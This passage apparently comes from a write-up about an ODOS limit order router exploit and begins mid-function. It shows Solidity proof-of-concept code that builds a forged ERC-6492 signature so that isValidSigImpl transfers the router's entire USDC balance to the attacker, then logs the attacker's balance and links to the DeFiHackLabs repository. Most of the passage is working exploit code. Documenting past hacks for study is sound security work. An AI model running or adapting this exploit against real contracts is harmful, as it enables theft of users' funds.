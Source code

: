 ```solidity
            "[Start] Attacker USDC balance before exploit",
            USDCInstance.balanceOf(address(this)),
            6
        );

        uint256 victimUSDCBalance = USDCInstance.balanceOf(address(odosLimitOrderRouterInstance));

        bytes memory customCalldata = abi.encodeCall(IUSDC.transfer, (address(this), victimUSDCBalance));
        bytes memory signature = abi.encodePacked(
            abi.encode(address(USDCInstance), customCalldata, bytes(hex"01")),
            ERC6492_DETECTION_SUFFIX
        );

        odosLimitOrderRouterInstance.isValidSigImpl(address(0x04), bytes32(0x0), signature, true);

        emit log_named_decimal_uint(
            "[End] Attacker USDC balance before exploit",
            USDCInstance.balanceOf(address(this)),
            6
        );
    }
}
```
The log below records the execution results of the test above.
<img width="1052" alt="image" src="https://github.com/user-attachments/assets/66211f36-2cd3-4318-908c-e4f0beb38c6c" />

<br>

This PoC has been added to the DefiHackLabs repository. You can review and execute it using the link below:

[View PoC on DefiHackLabs Repository](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/2025-01/ODOS_exp.sol)


